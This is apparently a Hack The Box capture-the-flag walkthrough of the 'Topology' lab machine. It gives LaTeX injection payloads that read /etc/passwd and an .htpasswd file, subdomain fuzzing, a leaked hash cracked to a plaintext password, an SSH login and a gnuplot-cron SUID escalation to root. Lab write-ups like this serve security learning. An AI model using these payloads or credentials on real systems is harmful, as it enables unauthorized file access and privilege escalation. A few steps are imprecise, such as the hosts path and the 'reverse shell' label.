# Creating Host

- `sudo vim etc/hosts/`
- add host as 10.10.11.217  topology.htb
- Link: http://topology.htb/


# Scanning

`nmap -A -sV 10.10.11.217`

## Home page


Found LaTeX Equation Generator but couldn’t redirect so adding this host name in `etc/hosts/` .

Had no idea about this website so searched Latex equation vulnerabilities and found [Formula/CSV/Doc/LaTeX Injection - HackTricks](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjxqeuszsyAAxVrzjgGHUAJC5EQFnoECA4QAQ&url=https%3A%2F%2Fbook.hacktricks.xyz%2Fpentesting-web%2Fformula-doc-latex-injection&usg=AOvVaw1n_NXF4m8WzMsGaABeQ7Vg&opi=89978449).




Now I wanted to read files from Latex code generator

command: `\input{/etc/passwd}`

:::note
 It's latex language issue , when I execute command its in "text" mode by adding $ it goes into "math mode" to calculate and execute equations.
:::

command: `$\input{/etc/passwd}$`

As we know /etc/passwd file is used **to keep track of every registered user that has access to a system.**

command: `$\lstinputlisting{/etc/passwd}$`

## Found LFI 


## Scanning for Subdomains
```
wfuzz -c --hc=404 --hw=545 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.topology.htb" http://topology.htb
```


Now, add `dev.topology.htb` and `stats.topology.htb` to `etc/hosts/`.


Now we need to bypass this authentication, as we have seen this domain is running on `Apache/2.4.41`.


[Bypass Apache/2.4.41 401 Unauthorized](https://www.vidocsecurity.com/blog/401-and-403-bypass-how-to-do-it-right/)


Command: `$\lstinputlisting{/var/www/dev/.htpasswd}$`

Finally found a Hash as a `.PNG file`.

Hash: `vdaisley : $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`

## Hash Cracking using John

command: `john --wordlist=/usr/share/wordlists/rockyou.txt hash`


Output: `?:calculus20`

:::caution[Note]
As see in our initial Nmap scan we have few SSH ports open.
:::

### Connect to SSH

command: `ssh vdaisley@topology.htb`

password: `calculus20`

After connecting to the ssh port you get the user flag.

## Privilege Escaltion 

Gaining Root access


Nothing interesting found here, except a executable “pspy64”. 
:::important
💡 pspy is a command line tool designed **to snoop on processes without need for root permissions**.
:::
command: `./pspy64`



command: `/opt/gnuplot`

command: `ls`

Output: `ls: cannot open directory '.': Permission denied`

Create a file within gnuplot dir

command  bash-5.0$ `nano /opt/gnuplot/root.plt`

Reverse Shell - root.plt must contain `system “chmod u+s”`


command: `bash -p` 

```
-p  Turned on whenever the real and effective user ids do not match.
            Disables processing of the $ENV file and importing of shell
            functions.  Turning this option off causes the effective uid and
            gid to be set to the real uid and gid.
```

command: `whoami`   →  root

Obtained the root access. Now, move on to root dir.

There we have the root.txt.